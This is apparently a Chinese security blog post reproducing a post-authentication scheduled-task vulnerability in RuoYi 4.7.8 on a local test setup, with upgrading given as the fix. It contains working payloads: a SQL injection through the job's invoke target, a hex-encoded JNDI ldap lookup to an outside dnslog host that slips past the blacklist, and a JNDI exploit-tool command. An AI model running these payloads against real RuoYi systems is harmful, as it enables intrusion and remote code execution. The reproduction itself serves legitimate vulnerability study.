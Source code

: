 #  若依4.7.8版本计划任务rce复现   
笑笑  JOY的安全屋   2024-07-11 22:49  
  
![](https://mmbiz.qpic.cn/mmbiz_png/bxm5MFwYdYlRxlvFMV3DKfOLzRAJY7Niaick3bvBOaibSTudQoKaicCiaBWbvxl1ROCuo3qNDriaNhpSDdyg7bKic4sPQ/640?wx_fmt=png "")  
  
点击上方  
蓝字关注我们  
  
![](https://mmbiz.qpic.cn/mmbiz_png/2hxSOdQGclrlSXIw6LI6rrQ6icgsJ9p8yic7aXu35kVQMO3vibzibDjT4Oiapms400h2oAyHMMYcYczSRYHxfIv74FQ/640?wx_fmt=png "")  
  
  
# 0x00 背景  
  
最近项目中发现很多单位都使用了若依二开的系统，而最近若依有个后台计划任务rce的漏洞，比较新，我还没复现过，于是本地搭建一个若依环境复现一下这个漏洞。这个漏洞在4.7.8版本及之前都存在，现在最新版的若依也只更新到了4.7.9版本。  
# 0x01环境搭建  
  
下载若依4.7.8版本
https://gitee.com/y_project/RuoYi/releases![](https://mmbiz.qpic.cn/mmbiz_png/xTTr0Ob4ajcs9Oncz6WS2QnSuuVAQEFcQYiaeWSeicBpZATpFibjHic9ibROdqol1O7bJYibTK8h6f8xicZibsKG3mlqJA/640?wx_fmt=png&from=appmsg "")  
  
  
开启phpstudy中的mysql![](https://mmbiz.qpic.cn/mmbiz_png/xTTr0Ob4ajcs9Oncz6WS2QnSuuVAQEFcoBPLq1atSDImz2ovABVcib21ykic1nib5FgwX4Pm286ibJ1icM32rSptIJQ/640?wx_fmt=png&from=appmsg "")  
  
  
新建数据库ry,并导入若依的sql文件
sql文件在RuoYi-v4.7.8\sql![](https://mmbiz.qpic.cn/mmbiz_png/xTTr0Ob4ajcs9Oncz6WS2QnSuuVAQEFcTy67pDs1Bf1rCybvr5fsiauLy26zbAsqCGcKic72KNqOyIQnic2M0wvlw/640?wx_fmt=png&from=appmsg "")  
![](https://mmbiz.qpic.cn/mmbiz_png/xTTr0Ob4ajcs9Oncz6WS2QnSuuVAQEFcjwJ8YXLic5tzSjRC25NhargOiaqzuKWxH4AlHHc1CZibND7icD0MFiazJtA/640?wx_fmt=png&from=appmsg "")  
  
  
在IDEA中打开RuoYi项目文件
找到配置数据库的地方，修改数据库地址、账号和密码![](https://mmbiz.qpic.cn/mmbiz_png/xTTr0Ob4ajcs9Oncz6WS2QnSuuVAQEFclQLD4IoO0FZqq0PJvMk4r9FQuCDtCibVkk8iaLibsoPbqAfrF4mZ3k9IA/640?wx_fmt=png&from=appmsg "")  
  
  
java和maven之前配置过，这里就不用再配置了
尝试运行，启动成功![](https://mmbiz.qpic.cn/mmbiz_png/xTTr0Ob4ajcs9Oncz6WS2QnSuuVAQEFc8t78OXEqiaTW2USYibicGcarNdvzTj6VqQuAoEDYJjfeJJsWqprMcjlJQ/640?wx_fmt=png&from=appmsg "")  
  
  
访问127.0.0.1 ，成功进入若依系统![](https://mmbiz.qpic.cn/mmbiz_png/xTTr0Ob4ajcs9Oncz6WS2QnSuuVAQEFc7OIY0QeDVVMbSaGFUAqYQKiaP4k3Xx4VcBtyFQOT4XXX3X6ZNWibo17A/640?wx_fmt=png&from=appmsg "")  
  
# 0x02漏洞复现  
  
因为计划任务的漏洞属于后台漏洞，所以在真实渗透需要弱口令等方式进入后台才能利用。我这里模拟弱口令的场景下，直接进入到后台进行漏洞复现。进入后台，找到定时任务功能点![](https://mmbiz.qpic.cn/mmbiz_png/xTTr0Ob4ajcs9Oncz6WS2QnSuuVAQEFcF4uCLveODibdJBuLbOxQ9CJSn9ApDCeaxKhXkicawkzgus8XUXfmhibsg/640?wx_fmt=png&from=appmsg "")  
  
## 漏洞1：计划任务sql注入：  
  
添加计划任务
payload  
```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 'Hack By xiao' WHERE job_id = 1;')

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/xTTr0Ob4ajcs9Oncz6WS2QnSuuVAQEFcUzrE9ibhI25znwoaJYBQIKs9X1bACr53Gff4eAKBnLPLTxMdEicks09g/640?wx_fmt=png&from=appmsg "")  
  
点击启用任务，发现payload中的sql语句以及被执行，作用是修改id为1的计划任务的值为'Hack By xiao'![](https://mmbiz.qpic.cn/mmbiz_png/xTTr0Ob4ajcs9Oncz6WS2QnSuuVAQEFcnGOW2KZfTiaqGFgRTj2ia4FWoYpYzvoWIdDVRElZibibbT478yjLDXwvuQ/640?wx_fmt=png&from=appmsg "")  
计划任务sql注入复现成功  
## 漏洞2：计划任务命令执行：  
  
看大佬的漏洞分析中说JobInvokeUtil在调用过程中不允许在字符串中使用括号，因此将原始作业表中特定作业的参数值修改为十六进制（绕过防御检测），从而达到命令执行的效果。使用dnslog进行验证漏洞
payload：  
```
javax.naming.InitialContext.lookup('ldap://xiao.dwph71.dnslog.cn')

```  
  
将上面的payload进行十六进制编码：  
```
0x6A617661782E6E616D696E672E496E697469616C436F6E746578742E6C6F6F6B757028276C6461703A2F2F7869616F2E6477706837312E646E736C6F672E636E2729

```  
  
将编码后的payload带入下面的payload中：  
```
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6A617661782E6E616D696E672E496E697469616C436F6E746578742E6C6F6F6B757028276C6461703A2F2F7869616F2E6477706837312E646E736C6F672E636E2729 WHERE job_id = 2;')

```  
  
上面payload的作用是利用之前的sql注入漏洞，修改job_id为2的计划任务内容，将该计划任务执行的命令改为我们构造好的payload。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/xTTr0Ob4ajcs9Oncz6WS2QnSuuVAQEFc6JbmxDmR8mLxtZNkuxB2n4ORicpPkgcV58VA2sdOmNWm4WXjuYNRI5A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/xTTr0Ob4ajcs9Oncz6WS2QnSuuVAQEFccte79CjBaXY5LUmelONEYFB9QnLo0Yg8Gkia6L5Fb6GVfXBd2npWgbQ/640?wx_fmt=png&from=appmsg "")  
  
dnslog收到回显，证明漏洞存在![](https://mmbiz.qpic.cn/mmbiz_png/xTTr0Ob4ajcs9Oncz6WS2QnSuuVAQEFcDicec9maicqLky27zuMV6O6BONTb9SPdEkc8icb7HNhsnS5vUSseJs8Bg/640?wx_fmt=png&from=appmsg "")  
  
  
使用服务器上的利用工具进行执行弹出计算器命令：  
```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 服务器ip -C "calc"

```  
  
漏洞绕过的原因：在添加 SQL 定时任务时，可以通过 16 进制转换绕过黑名单检测  
# 修复方式  
  
升级到最新版本  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/xTTr0Ob4ajcs9Oncz6WS2QnSuuVAQEFcKk04lrkdY92E7ZTgdTCMTicT0juxccC49J4x7Iqzo85sr0EvkWoTvcQ/640?wx_fmt=jpeg&from=appmsg "")  
  
扫描二维码获取  
  
更多精彩  
  
扶楹教育  
  
  
高温暑热送清凉  
  
  
HOT WEATHER COOL  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/QDUmAsarqiaxsIAxsv0Ldupoh0azMAibS24lJrWkLyVKH5xaiaYkYO0VNeaEEiaBhiaZQ2Oy1oia1fRnRibJ04Iw5e19Q/640?wx_fmt=gif "")  
  
  
  
